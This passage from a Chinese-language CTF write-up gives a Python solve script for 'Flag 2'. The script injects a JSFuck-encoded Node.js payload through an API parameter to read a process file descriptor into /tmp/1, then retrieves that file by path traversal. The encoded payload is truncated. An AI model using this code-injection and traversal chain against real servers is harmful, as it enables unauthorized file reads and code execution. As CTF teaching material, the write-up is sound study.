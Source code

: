 ![image-20211116143307790](assets/image-20211116143307790.png)

然后发送过去，就能在 `/tmp/1` 接收到 Flag 2。以下是获得 Flag 2 的代码：

```python
import urllib.request

# `jsfuck`ed constructor.constructor('f=require("fs");f.writeFileSync("/tmp/1",JSON.stringify(f.readFileSync(`/proc/${process.ppid}/fd/20`)))')()
shellcode = '[][(![]+[])[+[]]+(![]+[])[!+[]+!...'

def urllib_req(url): # because `requests` cannot do path traversal
    txt = urllib.request.urlopen(url).read().decode('utf-8')
    return txt

def quote(s):
    return s.replace('+', '%2B')

def get_flag2():
    enable_eval()
    
    url = SERVER_URL+'/api/demo.json?in_path=(%s)'%quote(shellcode)
    txt = s.get(url).text
    assert txt=='{}'
    
    txt = urllib_req(SERVER_URL+'/api////////////../../../../tmp/1')
    flag2 = bytes(json.loads(txt)['data']).decode()
    print(flag2)
    assert 'flag{' in flag2
```



**命题思路**
